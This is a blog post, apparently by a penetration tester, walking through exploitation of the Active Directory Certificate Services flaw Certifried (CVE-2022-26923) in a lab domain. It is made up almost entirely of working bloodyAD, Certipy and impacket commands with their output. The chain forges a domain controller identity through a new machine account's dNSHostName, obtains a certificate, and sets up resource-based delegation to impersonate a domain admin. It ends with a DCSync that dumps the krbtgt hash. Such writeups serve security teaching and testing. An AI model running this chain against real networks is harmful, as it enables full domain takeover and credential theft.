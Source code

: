 ```yaml
---
layout: post
title:  "bloodyAD and Certifried (CVE-2022-26923)"
author: soka
twitter: pentest_soka
date:   2022-05-11 18:12:00 +0200
categories: ad privesc
tags: ad privesc bloodyad kerberos authentication
---
```

A new ADCS privesc was released: Certifried (CVE-2022-26923) with this [blogpost](https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4) after Microsoft patched it.
Here is an example on how to exploit this vulnerability with [bloodyAD](https://github.com/CravateRouge/bloodyAD) and PKINIT not supported from Linux.

# Linux

We need to own a computer, either we pwned one or we can create one if `ms-DS-MachineAccountQuota`>0:

{% highlight bash %}
> python bloodyAD.py -d crashlab.local -u testuser -p 'totoTOTOtoto1234*' --host 10.100.10.12 get object 'DC=crashlab,DC=local' --attr ms-DS-MachineAccountQuota                     

distinguishedName: DC=crashlab,DC=local
ms-DS-MachineAccountQuota: 10
{% endhighlight %}

We create a Computer object `cve` in the LDAP:
{% highlight bash %}
> python bloodyAD.py -d crashlab.local -u testuser -p 'totoTOTOtoto1234*' --host 10.100.10.12 addComputer cve 'CVEPassword1234*'

[+] cve created
{% endhighlight %}

Then we set the attribute `dNSHostName` (empty when we created the object) to match the Domain Controller DNS Hostname: `CRASHDC.crashlab.local`.

{% highlight bash %}
> python bloodyAD.py -d crashlab.local -u testuser -p 'totoTOTOtoto1234*' --host 10.100.10.12 set object 'CN=cve,CN=Computers,DC=crashlab,DC=local' dNSHostName -v CRASHDC.crashlab.local

[+] CN=cve,CN=Computers,DC=crashlab,DC=local's dnsHostName has been updated
{% endhighlight %}

To check if the attribute has been correctly set:
{% highlight bash %}
> python bloodyAD.py -d crashlab.local -u testuser -p 'totoTOTOtoto1234*' --host 10.100.10.12 get object 'CN=cve,CN=Computers,DC=crashlab,DC=local' --attr dNSHostName                  

distinguishedName: CN=cve,CN=Computers,DC=crashlab,DC=local
dNSHostName: CRASHDC.crashlab.local
{% endhighlight %}

Now we can use [Certipy](https://github.com/ly4k/Certipy) to request a certificate for the computer `cve`:
{% highlight bash %}
# 10.100.10.13 is the ADCS server
> certipy req 'crashlab.local/cve$:CVEPassword1234*@10.100.10.13' -template Machine -dc-ip 10.100.10.12 -ca crashlab-ADCS-CA
Certipy v3.0.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate
[*] Successfully requested certificate
[*] Request ID is 12
[*] Got certificate with DNS Host Name 'CRASHDC.crashlab.local'
[*] Saved certificate and private key to 'crashdc.pfx'

{% endhighlight %}

Now we'll try to get a TGT using [Certipy](https://github.com/ly4k/Certipy) with the certificate requested above:
{% highlight bash %}
> certipy auth -pfx ./crashdc.pfx -dc-ip 10.100.10.12
Certipy v3.0.0 - by Oliver Lyak (ly4k)

[*] Using principal: crashdc$@crashlab.local
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERR_PADATA_TYPE_NOSUPP(KDC has no support for padata type)
{% endhighlight %}

PKINIT doesn't seem to work on this AD, let's try RBCD technique with [bloodyAD](https://github.com/CravateRouge/bloodyAD) and its certificate authentication feature:
{% highlight bash %}
> openssl pkcs12 -in crashdc.pfx -out crashdc.pem -nodes
> python bloodyAD.py -d crashlab.local  -c ":crashdc.pem" -u 'cve$' --host 10.100.10.12 add rbcd 'CRASHDC$' 'CVE$'
[+] CVE$ SID is: S-1-5-21-1945936656-2616711065-1665664270-1134             
[+] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity correctly set        
[+] Delegation rights modified successfully!                                                                           
CVE$ can now impersonate users on CRASHDC$ via S4U2Proxy
{% endhighlight %}

Delegation rights are set up, we can now use [impacket](https://github.com/SecureAuthCorp/impacket) `getST.py` to impersonate a Domain admin (`emacron` in our case) on CRASHDC$ and fetch a TGT: 
{% highlight bash %}
> getST.py -spn LDAP/CRASHDC.CRASHLAB.LOCAL -impersonate emacron -dc-ip 10.100.10.12 'crashlab.local/cve$:CVEPassword1234*'                 
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation                                                               
                                                                                                                       
[*] Getting TGT for user                                                                                               
[*] Impersonating emacron                                                                                              
[*]     Requesting S4U2self                                                                                            
[*]     Requesting S4U2Proxy
[*] Saving ticket in emacron.ccache

> cp emacron.ccache /tmp/
> export KRB5CCNAME=/tmp/emacron.ccache
{% endhighlight %}

Finally we'll use [impacket](https://github.com/SecureAuthCorp/impacket) `secretsdump.py` to perform a DCSync with the exported TGT:
{% highlight bash %}

> secretsdump.py -user-status -just-dc-ntlm -just-dc-user krbtgt 'crashlab.local/emacron@crashdc.crashlab.local' -k -no-pass -dc-ip 10.100.10.12 -target-ip 10.100.10.12 
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:492850f62466ef2bd1f4a56f112e01f1::: (status=Disabled)
[*] Cleaning up...
{% endhighlight %}
